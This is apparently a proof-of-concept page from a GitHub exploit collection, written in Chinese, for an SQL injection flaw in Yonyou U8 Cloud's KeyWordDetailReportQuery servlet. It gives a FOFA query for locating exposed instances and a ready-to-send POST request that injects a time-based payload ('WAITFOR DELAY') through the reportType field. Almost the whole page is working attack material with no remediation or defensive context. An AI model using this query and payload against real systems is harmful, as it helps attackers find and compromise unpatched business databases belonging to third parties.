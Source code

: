 # 用友U8_cloud_KeyWordDetailReportQuery_SQL注入漏洞

## fofa
```
app="用友U8 Cloud"
```

## poc
```
POST /servlet/~iufo/nc.itf.iufo.mobilereport.data.KeyWordDetailReportQuery  HTTP/1.1
host:127.0.0.1

{"reportType":"';WAITFOR DELAY '0:0:5'--","usercode":"18701014496","keyword":[{"keywordPk":"1","keywordValue":"1","keywordIndex":1}]}
```

![19d957a16fb12f9edddbd99a2dbd081a](https://github.com/wy876/POC/assets/139549762/dfc8e10e-b1f8-41db-8dd2-e23c5c47b249)
